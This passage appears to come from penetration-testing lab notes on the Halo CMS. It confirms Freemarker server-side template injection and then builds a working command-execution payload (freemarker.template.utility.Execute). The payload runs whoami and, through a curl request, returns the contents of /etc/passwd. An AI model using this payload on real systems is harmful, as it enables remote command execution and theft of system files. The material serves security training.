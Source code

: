 ```bash

<!DOCTYPE html>
<html>
<head>
    <meta http-equiv="content-type" content="text/html; charset=utf-8">
    <link rel="alternate" type="application/rss+xml" title="atom 1.0" href="/atom.xml">
    <title>Not Found</title>
    <link href="http://halo/anatole/source/css/style.min.css" type="text/css" rel="stylesheet"/>
</head>
<div class="page_404">
    <p>The page you are looking for is missing</p>
</div>
</html>
25              
```
The response indicates that multiplying a string and integer crashed the templating engine. At this point, we are very confident we're working with the Freemarker templating engine.

---------
#### 11.7.3. Halo - Exploitation

Now that we've discovered the template injection, let's build a payload that will execute commands on the target. We'll start by reviewing the rudimentary Freemarker expression to execute a command.

```html
${"freemarker.template.utility.Execute"?new()("whoami")}
```
![[Pasted image 20241028214413.png]]

This payload will return the current user executing the process. Let's replace the payload to instead display the /etc/passwd file, save the template, and use curl to render it.
![[Pasted image 20241028214435.png]]

When we render our payload, we find the contents of the `/etc/passwd` file.

```bash
kali@kali:~$ curl -L http://halo/DoesNotExist
...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
